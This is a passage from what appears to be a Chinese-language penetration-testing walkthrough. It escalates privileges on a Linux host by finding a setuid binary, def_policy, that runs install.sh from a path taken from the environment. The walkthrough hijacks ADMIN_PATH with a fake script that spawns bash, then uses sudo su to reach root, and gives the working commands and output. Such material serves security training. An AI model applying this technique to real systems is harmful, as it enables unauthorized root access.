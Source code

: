 记住，一旦我们修改了 **setuid** 脚本，它就不再具备该能力。我们正在寻找的，就是一个使用了未严格过滤命令的 **setuid** 脚本，用以操作环境变量，执行其他二进制文件 -- 有时我们可以控制和提权，从而欺骗它来执行我们自己的代码。

首先，通过下面的命令列出所有 **setuid** 文件：

```text
CAREER$>find / -type f \( -perm -04000 -o -perm -02000 \) \-exec ls -l {} \;
r-sr-sr-x 1 oinstall adm 9 Dec 18 14:11 /app/product/def_policy
[…]
```

找到了 **def\_policy** 文件。任意用户都可以用 **oinstall** 账户的权限来执行该文件。也许该用户不具备 root 权限，但我们毕竟向前了一步。

对 **def\_policy** 文件执行 strings 命令，查找程序中硬编码的数据：

```text
www-data@career$ strings /app/product/def_policy
/lib/ld-linux.so.2
____gmon_start____
libc.so.6
setuid
exit
sprint
strnlen
malloc
system
strsep
strcmp
____libc_start_main
GLIBC_2.0 
ADMIN_PATH
%s/install.sh
```

看起来，**def\_policy** 程序只是一个简单的打包程序，用来执行 install.sh 脚本。'%s' 格式字符串意味着 **install.sh** 脚本的路径是从变量中获取的……比如'ADMIN\_PATH'？也许吧，但是看起来程序代码中没有任何路径。基本可以确定，是在会话级别的环境变量中定义了该路径值。

有意思的是，每个用户可以控制自己的环境变量。我们可以这样欺骗该程序去读取攻击者控制目录中的新 install.sh 脚本。这个新的“伪造”脚本会生成一个具有 oinstall 账户权限的 **bash** 会话。

```text
www-data$> export ADMIN_PATH=/tmp/
www-data$> echo -e    "#\!bin/bash\n/bin/bash" > /tmp/install.sh
www-data$> /app/product/def_policy
oinstall$> id
uid=1501(oinstall) gid=2001(adm) groups=2001(adm) ,27(sudo)
```

很好！ **oinstall** 账号不仅仅是 **adm** 组用户，还是 **sudo** 组用户。这意味着它可以提权为 root 用户：

```text
oinstall@CAREER:$ sudo su
root@CAREER#> id
uid=0(root) gid=0(root) groups=0(root)
```

干掉了一个……继续干。
